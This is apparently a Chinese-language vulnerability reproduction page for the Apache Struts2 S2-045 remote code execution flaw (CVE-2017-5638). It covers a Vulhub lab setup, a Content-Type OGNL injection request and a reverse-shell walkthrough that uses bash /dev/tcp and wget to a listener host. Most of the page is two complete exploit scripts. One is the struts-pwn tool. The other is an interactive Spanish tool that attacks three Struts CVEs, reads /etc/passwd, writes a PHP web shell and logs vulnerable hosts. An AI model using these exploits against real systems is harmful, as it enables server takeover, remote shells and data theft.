




# Struts2 S2-045 远程代码执行漏洞 CVE-2017-5638

## 漏洞描述

基于Jakarta Multipart parser的文件上传模块在处理文件上传（multipart）的请求时候对异常信息做了捕获，并对异常信息做了OGNL表达式处理。但在在判断content-type不正确的时候会抛出异常并且带上Content-Type属性值，可通过精心构造附带OGNL表达式的URL导致远程代码执行。

漏洞详情:

- http://struts.apache.org/docs/s2-045.html
- https://blog.csdn.net/u011721501/article/details/60768657
- https://paper.seebug.org/247/

## 漏洞影响

影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

## 环境搭建

Vulhub执行以下命令启动s2-045测试环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到上传页面。

## 漏洞复现

直接发送如下数据包，可见`233*233`已成功执行：

```
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data
```



### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

通过漏洞EXP执行以上命令：



执行shell.sh文件的命令为：

```
bash shell.sh
```

通过漏洞EXP执行以上命令：



成功接收反弹shell：



## 漏洞EXP

### EXP 1

参考[struts-pwn](https://github.com/mazen160/struts-pwn)

```python
#!/usr/bin/env python3
# coding=utf-8
# *****************************************************
# struts-pwn: Apache Struts CVE-2017-5638 Exploit
# Author:
# Mazin Ahmed <Mazin AT MazinAhmed DOT net>
# This code is based on:
# https://www.exploit-db.com/exploits/41570/
# https://www.seebug.org/vuldb/ssvid-92746
# *****************************************************
import sys
import random
import requests
import argparse

# Disable SSL warnings
try:
    import requests.packages.urllib3
    requests.packages.urllib3.disable_warnings()
except:
    pass

if len(sys.argv) <= 1:
    print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
    print('[*] Struts-PWN - @mazen160')
    print('\n%s -h for help.' % (sys.argv[0]))
    exit(0)

parser = argparse.ArgumentParser()
parser.add_argument("-u", "--url",
                    dest="url",
                    help="Check a single URL.",
                    action='store')
parser.add_argument("-l", "--list",
                    dest="usedlist",
                    help="Check a list of URLs.",
                    action='store')
parser.add_argument("-c", "--cmd",
                    dest="cmd",
                    help="Command to execute. (Default: id)",
                    action='store',
                    default='id')
parser.add_argument("--check",
                    dest="do_check",
                    help="Check if a target is vulnerable.",
                    action='store_true')
args = parser.parse_args()
url = args.url if args.url else None
usedlist = args.usedlist if args.usedlist else None
url = args.url if args.url else None
cmd = args.cmd if args.cmd else None
do_check = args.do_check if args.do_check else None


def url_prepare(url):
    url = url.replace('#', '%23')
    url = url.replace(' ', '%20')
    if ('://' not in url):
        url = str('http') + str('://') + str(url)
    return(url)


def exploit(url, cmd):
    url = url_prepare(url)
    print('\n[*] URL: %s' % (url))
    print('[*] CMD: %s' % (cmd))

    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"

    headers = {
        'User-Agent': 'struts-pwn (https://github.com/mazen160/struts-pwn)',
        # 'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36',
        'Content-Type': str(payload),
        'Accept': '*/*'
    }

    timeout = 3
    try:
        output = requests.get(url, headers=headers, verify=False, timeout=timeout, allow_redirects=False).text
    
    except requests.exceptions.ChunkedEncodingError:
        print("[!] ChunkedEncodingError Error: Making another request to the url.")
        print("Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.")
        try:
            output = b""
            with requests.get(url, headers=headers, verify=False, timeout=timeout, allow_redirects=False, stream=True) as resp:
                for i in resp.iter_content():
                    output += i
        except requests.exceptions.ChunkedEncodingError as e:
            print("EXCEPTION::::--> " + str(e))
            print("Note: Server Connection Closed Prematurely\n")
        except Exception as e:
            print("EXCEPTION::::--> " + str(e))
            output = 'ERROR'
        if type(output) != str:
            output = output.decode('utf-8')
        return(output)
    except Exception as e:
        print("EXCEPTION::::--> " + str(e))
        output = 'ERROR'
    
    return(output)


def check(url):
    url = url_prepare(url)
    print('\n[*] URL: %s' % (url))

    random_string = ''.join(random.choice('abcdefghijklmnopqrstuvwxyz') for i in range(7))

    payload = "%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']."
    payload += "addHeader('%s','%s')}.multipart/form-data" % (random_string, random_string)
    headers = {
        'User-Agent': 'struts-pwn (https://github.com/mazen160/struts-pwn)',
        # 'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36',
        'Content-Type': str(payload),
        'Accept': '*/*'
    }

    timeout = 3
    try:
        resp = requests.get(url, headers=headers, verify=False, timeout=timeout, allow_redirects=False)
        if ((random_string in resp.headers.keys()) and (resp.headers[random_string] == random_string)):
            result = True
        else:
            result = False
    except Exception as e:
        print("EXCEPTION::::--> " + str(e))
        result = False
    return(result)


def main(url=url, usedlist=usedlist, cmd=cmd, do_check=do_check):
    if url:
        if do_check:
            result = check(url)  # Only check for existence of Vulnerablity
            output = '[*] Status: '
            if result is True:
                output += 'Vulnerable!'
            else:
                output += 'Not Affected.'
        else:
            output = exploit(url, cmd)  # Exploit
        print(output)

    if usedlist:
        URLs_List = []
        try:
            f_file = open(str(usedlist), 'r')
            URLs_List = f_file.read().replace('\r', '').split('\n')
            try:
                URLs_List.remove('')
            except ValueError:
                pass
                f_file.close()
        except:
            print('Error: There was an error in reading list file.')
            exit(1)
        for url in URLs_List:
            if do_check:
                result = check(url)  # Only check for existence of Vulnerablity
                output = '[*] Status: '
                if result is True:
                    output += 'Vulnerable!'
                else:
                    output += 'Not Affected.'
            else:
                output = exploit(url, cmd)  # Exploit
            print(output)

    print('[%] Done.')

if __name__ == '__main__':
    try:
        main(url=url, usedlist=usedlist, cmd=cmd, do_check=do_check)
    except KeyboardInterrupt:
        print('\nKeyboardInterrupt Detected.')
        print('Exiting...')
        exit(0)
```

### EXP 2

```python
#!/usr/bin/python

from __future__ import print_function
from future import standard_library
standard_library.install_aliases()
from builtins import input
from builtins import str
import urllib.request, urllib.error, urllib.parse
import time
import sys
import os
import subprocess
import requests
import readline
import urllib.parse

RED = '\033[1;31m'
BLUE = '\033[94m'
BOLD = '\033[1m'
GREEN = '\033[32m'
OTRO = '\033[36m'
YELLOW = '\033[33m'
ENDC = '\033[0m'

def cls():
    os.system(['clear', 'cls'][os.name == 'nt'])
cls()

logo = BLUE+'''
  ___   _____  ___    _   _  _____  ___
 (  _`\(_   _)|  _`\ ( ) ( )(_   _)(  _`\
 | (_(_) | |  | (_) )| | | |  | |  | (_(_)
 `\__ \  | |  | ,  / | | | |  | |  `\__ \
 ( )_) | | |  | |\ \ | (_) |  | |  ( )_) |
 `\____) (_)  (_) (_)(_____)  (_)  `\____)

        =[ Command Execution v3]=
              By @s1kr10s
'''+ENDC
print(logo)

print(" * Ejemplo: http(s)://www.victima.com/files.login\n")
host = input(BOLD+" [+] HOST: "+ENDC)

if len(host) > 0:
    if host.find("https://") != -1 or host.find("http://") != -1:

        poc = "?redirect:${%23w%3d%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29.getWriter%28%29,%23w.println%28%27mamalo%27%29,%23w.flush%28%29,%23w.close%28%29}"

        def exploit(comando):
            exploit = "?redirect:${%23a%3d%28new%20java.lang.ProcessBuilder%28new%20java.lang.String[]{"+comando+"}%29%29.start%28%29,%23b%3d%23a.getInputStream%28%29,%23c%3dnew%20java.io.InputStreamReader%28%23b%29,%23d%3dnew%20java.io.BufferedReader%28%23c%29,%23e%3dnew%20char[50000],%23d.read%28%23e%29,%23matt%3d%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29,%23matt.getWriter%28%29.println%28%23e%29,%23matt.getWriter%28%29.flush%28%29,%23matt.getWriter%28%29.close%28%29}"
            return exploit

        def exploit2(comando):
            exploit2 = "Content-Type:%{(+++#_='multipart/form-data').(+++#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(+++#_memberAccess?(+++#_memberAccess=#dm):((+++#container=#context['com.opensymphony.xwork2.ActionContext.container']).(+++#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(+++#ognlUtil.getExcludedPackageNames().clear()).(+++#ognlUtil.getExcludedClasses().clear()).(+++#context.setMemberAccess(+++#dm)))).(+++#shell='"+str(comando)+"').(+++#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(+++#shells=(+++#iswin?{'cmd.exe','/c',#shell}:{'/bin/sh','-c',#shell})).(+++#p=new java.lang.ProcessBuilder(+++#shells)).(+++#p.redirectErrorStream(true)).(+++#process=#p.start()).(+++#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(+++#process.getInputStream(),#ros)).(+++#ros.flush())}"
            return exploit2

        def exploit3(comando):
            exploit3 = "%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27"+comando+"%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D"
            return exploit3

        def pwnd(shellfile):
            exploitfile = "?redirect:${%23a%3d%28new%20java.lang.ProcessBuilder%28new%20java.lang.String[]{"+shellfile+"}%29%29.start%28%29,%23b%3d%23a.getInputStream%28%29,%23c%3dnew%20java.io.InputStreamReader%28%23b%29,%23d%3dnew%20java.io.BufferedReader%28%23c%29,%23e%3dnew%20char[50000],%23d.read%28%23e%29,%23matt%3d%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29,%23matt.getWriter%28%29.println%28%23e%29,%23matt.getWriter%28%29.flush%28%29,%23matt.getWriter%28%29.close%28%29}"
            return exploitfile

        def validador():
            arr_lin_win = ["file%20/etc/passwd","dir","net%20users","id","/sbin/ifconfig","cat%20/etc/passwd"]
            return arr_lin_win

        #def reversepl(ip,port):
        #       print "perl"

        #def reversepy(ip,port):
        #       print "python"

        # CVE-2013-2251 ---------------------------------------------------------------------------------
        try:
            response = ''
            response = urllib.request.urlopen(host+poc)
        except:
            print(RED+" Servidor no responde\n"+ENDC)
            exit(0)

        print(BOLD+"\n [+] EJECUTANDO EXPLOIT CVE-2013-2251"+ENDC)

        if response.read().find("mamalo") != -1:
            print(RED+"   [-] VULNERABLE"+ENDC)
            owned = open('vulnsite.txt', 'a')
            owned.write(str(host)+'\n')
            owned.close()

            opcion = input(YELLOW+"   [-] RUN THIS EXPLOIT (s/n): "+ENDC)
            #print BOLD+"   * [SHELL REVERSA]"+ENDC
            #print OTRO+"     Struts@Shell:$ reverse 127.0.0.1 4444 (perl,python,bash)\n"+ENDC
            if opcion == 's':
                print(YELLOW+"   [-] GET PROMPT...\n"+ENDC)
                time.sleep(1)
                print(BOLD+"   * [UPLOAD SHELL]"+ENDC)
                print(OTRO+"     Struts@Shell:$ pwnd (php)\n"+ENDC)

                while 1:
                    separador = input(GREEN+"Struts2@Shell_1:$ "+ENDC)
                    espacio = separador.split(' ')
                    comando = "','".join(espacio)

                    if espacio[0] != 'reverse' and espacio[0] != 'pwnd':
                        shell = urllib.request.urlopen(host+exploit("'"+str(comando)+"'"))
                        print("\n"+shell.read())
                    elif espacio[0] == 'pwnd':
                        pathsave=input("path EJ:/tmp/: ")

                        if espacio[1] == 'php':
                            shellfile = """'python','-c','f%3dopen("/tmp/status.php","w");f.write("<?php%20system($_GET[ksujenenuhw])?>")'"""
                            urllib.request.urlopen(host+pwnd(str(shellfile)))
                            shell = urllib.request.urlopen(host+exploit("'ls','-l','"+pathsave+"status.php'"))
                            if shell.read().find(pathsave+"status.php") != -1:
                                print(BOLD+GREEN+"\nCreate File Successfull :) ["+pathsave+"status.php]\n"+ENDC)
                            else:
                                print(BOLD+RED+"\nNo Create File :/\n"+ENDC)

        # CVE-2017-5638 ---------------------------------------------------------------------------------
        print(BLUE+"     [-] NO VULNERABLE"+ENDC)
        print(BOLD+" [+] EJECUTANDO EXPLOIT CVE-2017-5638"+ENDC)
        x = 0
        while x < len(validador()):
            valida = validador()[x]

            try:
                req = urllib.request.Request(host, None, {'User-Agent': 'Mozilla/5.0', 'Content-Type': exploit2(str(valida))})
                result = urllib.request.urlopen(req).read()

                if result.find("ASCII") != -1 or result.find("No such") != -1 or result.find("Directory of") != -1 or result.find("Volume Serial") != -1 or result.find("inet") != -1 or result.find("root:") != -1 or result.find("uid=") != -1 or result.find("accounts") != -1 or result.find("Cuentas") != -1:
                    print(RED+"   [-] VULNERABLE"+ENDC)
                    owned = open('vulnsite.txt', 'a')
                    owned.write(str(host)+'\n')
                    owned.close()

                    opcion = input(YELLOW+"   [-] RUN THIS EXPLOIT (s/n): "+ENDC)
                    if opcion == 's':
                        print(YELLOW+"   [-] GET PROMPT...\n"+ENDC)
                        time.sleep(1)

                        while 1:
                            try:
                                separador = input(GREEN+"\nStruts2@Shell_2:$ "+ENDC)
                                req = urllib.request.Request(host, None, {'User-Agent': 'Mozilla/5.0', 'Content-Type': exploit2(str(separador))})
                                result = urllib.request.urlopen(req).read()
                                print("\n"+result)
                            except:
                                exit(0)
                    else:
                        x = len(validador())
                else:
                    print(BLUE+"     [-] NO VULNERABLE "+ENDC + "Payload: " + str(x))
            except:
                pass
            x=x+1

        # CVE-2018-11776 ---------------------------------------------------------------------------------
        print(BLUE+"     [-] NO VULNERABLE"+ENDC)
        print(BOLD+" [+] EJECUTANDO EXPLOIT CVE-2018-11776"+ENDC)
        x = 0
        while x < len(validador()):
            #Filtramos la url solo dominio
            url = host.replace('#', '%23')
            url = host.replace(' ', '%20')
            if ('://' not in url):
                url = str("http://") + str(url)
            scheme = urllib.parse.urlparse(url).scheme
            site = scheme + '://' + urllib.parse.urlparse(url).netloc

            #Filtramos la url solo path
            file_path = urllib.parse.urlparse(url).path
            if (file_path == ''):
                file_path = '/'

            valida = validador()[x]
            try:
                result = requests.get(site+"/"+exploit3(str(valida))+file_path).text

                if result.find("ASCII") != -1 or result.find("No such") != -1 or result.find("Directory of") != -1 or result.find("Volume Serial") != -1 or result.find("inet") != -1 or result.find("root:") != -1 or result.find("uid=") != -1 or result.find("accounts") != -1 or result.find("Cuentas") != -1:
                    print(RED+"   [-] VULNERABLE"+ENDC)
                    owned = open('vulnsite.txt', 'a')
                    owned.write(str(host)+'\n')
                    owned.close()

                    opcion = input(YELLOW+"   [-] RUN THIS EXPLOIT (s/n): "+ENDC)
                    if opcion == 's':
                        print(YELLOW+"   [-] GET PROMPT...\n"+ENDC)
                        time.sleep(1)
                        print(BOLD+"   * [UPLOAD SHELL]"+ENDC)
                        print(OTRO+"     Struts@Shell:$ pwnd (php)\n"+ENDC)

                        while 1:
                            separador = input(GREEN+"Struts2@Shell_3:$ "+ENDC)
                            espacio = separador.split(' ')
                            comando = "%20".join(espacio)

                            shell = urllib.request.urlopen(host+exploit3(str(comando)))
                            print("\n"+shell.read())

                    else:
                        x = len(validador())
                        exit(0)
                else:
                    print(BLUE+"     [-] NO VULNERABLE "+ENDC + "Payload: " + str(x))
            except:
                pass
            x=x+1
    else:
        print(RED+" Debe introducir el protocolo (https o http) para el dominio\n"+ENDC)
        exit(0)
else:
    print(RED+" Debe Ingresar una Url\n"+ENDC)
    exit(0)
```

